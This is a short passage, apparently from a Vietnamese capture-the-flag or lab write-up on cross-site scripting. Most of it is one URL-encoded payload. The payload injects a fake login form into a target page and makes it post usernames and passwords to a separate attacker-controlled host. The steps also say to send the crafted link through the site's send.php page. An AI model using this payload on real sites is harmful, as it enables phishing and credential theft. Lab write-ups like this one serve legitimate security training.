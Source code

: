 Perfect!

![](images/9.png)

Lúc này tôi có url:

```url
http://10.129.135.13/phishing/index.php?url=%27%3E%3Cdiv+onmouseover%3Ddocument.getElementById%28%27urlform%27%29%5B0%5D.remove%28%29%3Bdocument.getElementsByTagName%28%27img%27%29%5B0%5D.remove%28%29%3Bdocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E+%3Cform+action%3Dhttp%3A%2F%2F10.10.15.127%3E+%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E+%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E+%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E+%3C%2Fform%3E+%3C%21--%27%29%3E
```

Truy cập vào `/phishing/send.php` và gửi url

![](images/7.png)

Gửi url

![](images/10.png)

![](images/11.png)

